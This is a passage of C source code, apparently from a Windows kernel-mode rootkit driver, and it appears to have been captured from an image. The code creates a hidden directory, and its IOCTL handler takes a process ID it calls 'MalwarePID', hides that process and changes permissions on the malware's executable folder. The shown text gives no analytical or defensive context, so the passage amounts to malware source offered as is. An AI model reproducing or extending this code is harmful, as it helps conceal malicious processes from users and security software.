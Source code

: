 ```c
	Status = ZwCreateFile(&HandleDirectory, GENERIC_ALL, &ObjAttr, &IoStatusBlock, NULL, FILE_ATTRIBUTE_DIRECTORY | FILE_ATTRIBUTE_HIDDEN, \
		FILE_SHARE_READ | FILE_SHARE_WRITE, FILE_CREATE, FILE_DIRECTORY_FILE | FILE_SYNCHRONOUS_IO_NONALERT, NULL, 0);
	if (!NT_SUCCESS(Status)) {
		return Status;
	}
	ZwClose(HandleDirectory);

	return STATUS_SUCCESS;
}

NTSTATUS DispatchIOControl(PDEVICE_OBJECT DeviceObject, PIRP Irp) {

	UNREFERENCED_PARAMETER(DeviceObject);
	PIO_STACK_LOCATION Stack = IoGetCurrentIrpStackLocation(Irp);
	HANDLE MalwarePID;
	ULONG InputBufferLength;
	BOOLEAN ProcessRunning = TRUE;
	NTSTATUS Status;

	switch (Stack->Parameters.DeviceIoControl.IoControlCode) {

	case IOCTL_CREATE_DIRECTORY:
		Status = CreateHiddenFile();
		if (!NT_SUCCESS(Status)) {
			if (STATUS_OBJECT_NAME_COLLISION == Status) {
				Irp->IoStatus.Status = STATUS_SUCCESS;
				Irp->IoStatus.Information = 0;
				break;
			}
			Irp->IoStatus.Status = Status;
			Irp->IoStatus.Information = 0;
			break;
		}

		Irp->IoStatus.Status = STATUS_SUCCESS;
		Irp->IoStatus.Information = 0;
		break;

	case IOCTL_HIDE_PROCESS:
		MalwarePID = *((HANDLE*)Irp->AssociatedIrp.SystemBuffer);
		InputBufferLength = Stack->Parameters.DeviceIoControl.InputBufferLength;

		if (NULL == MalwarePID) {
			Irp->IoStatus.Status = STATUS_INVALID_DEVICE_REQUEST;
			Irp->IoStatus.Information = 0;
			break;
		}

		Status = HideProcess(MalwarePID);
		if (!NT_SUCCESS(Status)) {
			Irp->IoStatus.Status = Status;
			Irp->IoStatus.Information = 0;
			break;
		}

		Status = SetFolderPermissions(G_ExecutablePath, DELETE | FILE_EXECUTE);
		if (!NT_SUCCESS(Status)) {
			Irp->IoStatus.Status = Status;
			Irp->IoStatus.Information = 0;
			break;
		}
```